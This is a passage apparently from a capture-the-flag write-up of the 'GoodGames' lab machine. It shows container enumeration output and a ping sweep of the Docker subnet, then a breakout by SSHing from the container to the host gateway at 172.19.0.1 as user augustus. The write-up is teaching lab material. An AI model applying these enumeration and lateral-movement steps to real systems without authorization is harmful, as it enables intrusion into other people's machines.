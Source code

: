 ```bash
/usr/bin/curl
/usr/bin/wget
/usr/bin/gcc
/bin/hostname
/usr/local/bin/python
/usr/bin/python2
/usr/local/bin/python3
[+] Dangerous Capabilities .. Unknown (capsh not installed)
[+] SSHD Service ............ No
[+] Privileged Mode ......... No
====================================( Enumerating Mounts )====================================
[+] Docker sock mounted ....... No
[+] Other mounts .............. Yes
/home/augustus /home/augustus rw,relatime - ext4 /dev/sda1 rw,errors=remount-ro
[+] Possible host usernames ... augustus rw,relatime - ext4  
====================================( Interesting Files )=====================================
[+] Interesting environment variables ... No
[+] Any common entrypoint files ......... No
[+] Interesting files in root ........... No
[+] Passwords in common files ........... No
[+] Home directories .................... total 4.0K
drwxr-xr-x 2 1000 1000 4.0K Nov 21 20:38 augustus
[+] Hashes in shadow file ............... No permissions
[+] Searching for app dirs .............. 
==================================( Enumerating Containers )==================================
By default containers can communicate with other containers on the same network and the 
host machine, this can be used to enumerate further

[+] Attempting ping sweep of 172.19.0.2 /24 (ping) 
172.19.0.2 is Up
172.19.0.1 is Up
==============================================================================================
```

From here, we conclude a couple of things. The reason that /home/augustus directory is there is because it's from the actual box, mounted inside the container. Additionally, there's nothing we can really exploit docker-wise. However, if we think about this in context, why would a user have their home directory mounted in the container?

### Breakout
The 172.19.0.0/24 subnet is used to make a virtual network for all of the containers on the machine. This means the 172.19.0.1 address refers to the actual box itself, because it's like the gateway. What if we can access the original box from the container via something like ssh?

```bash
root@3a453ab39d3d:/home/augustus# ssh augustus@172.19.0.1
The authenticity of host '172.19.0.1 (172.19.0.1)' can't be established.
ECDSA key fingerprint is SHA256:AvB4qtTxSVcB0PuHwoPV42/LAJ9TlyPVbd7G6Igzmj0.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '172.19.0.1' (ECDSA) to the list of known hosts.
augustus@172.19.0.1's password: 
Linux GoodGames 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
augustus@GoodGames:~$ hostname; id
GoodGames
uid=1000(augustus) gid=1000(augustus) groups=1000(augustus)
```
